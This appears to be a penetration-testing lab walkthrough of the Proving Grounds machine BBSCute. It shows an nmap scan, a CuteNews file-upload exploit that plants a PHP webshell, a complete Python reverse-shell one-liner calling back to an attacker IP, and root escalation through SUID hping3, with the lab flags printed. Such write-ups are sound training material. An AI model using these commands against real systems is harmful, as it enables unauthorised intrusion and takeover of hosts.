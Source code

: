 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Lets check the IP address of victim machine first ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled.png)

```bash
IP : 10.0.2.48
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BBSCute]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.48
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 19:53 IST
Nmap scan report for 10.0.2.48
Host is up (0.00056s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) STLS TOP UIDL PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: UTF8(USER) LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) TOP UIDL PIPELINING USER
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
MAC Address: 08:00:27:BF:70:A5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%201.png)

### Directory Traversal ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%202.png)

Now lets dig into the index.php file →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%203.png)

Lets Register first →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%204.png)

Now I can’t find captcha this was because of my IP address configuration so manually I need to call `captcha.php` file for captcha ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%205.png)

with that lets login Now with my credentials ⤵️

```bash
Username : shiva 
Password : password
```

After login I got this interface ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%206.png)

After looking for an exploit I got this [exploit](https://www.exploit-db.com/exploits/48800) and I followed the path →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%207.png)

Here in this exploit I have to create a payload file like this ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%208.png)

Now with gif magic byte the file is now image file →

Now lets upload it through our dashboard ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%209.png)

Now when I saved it , It got successfully uploaded so now I have to load the file for that lets follow through the exploit again —>

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2010.png)

Through this my URL was → [http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami](http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami)

In response I got ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2011.png)

Now its time for reverse shell python payload input →

```bash
Python Payload >
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2012.png)

Now when I got the shell lets check for SUIDs and GUIDs →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2013.png)

Also I found `user.txt` file —>

```bash
www-data@cute:/home/fox$ cat user.txt
cat user.txt
dcb8189a0eaf7a690a67785a7299be60
www-data@cute:/home/fox$
```

Now lets exploit our hping3 ⤵️

```bash
www-data@cute:/$ /usr/sbin/hping3    
/usr/sbin/hping3
hping3> /bin/sh -p
/bin/sh -p
# whoami
whoami
root
#
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Sep 23  2020 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
-rw-------  1 root root   70 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   36 Sep 17  2020 .lesshst
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Sep 17  2020 localweb
-rw-------  1 root root   33 Sep 18  2020 root.txt
# cat root.txt
cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
#
```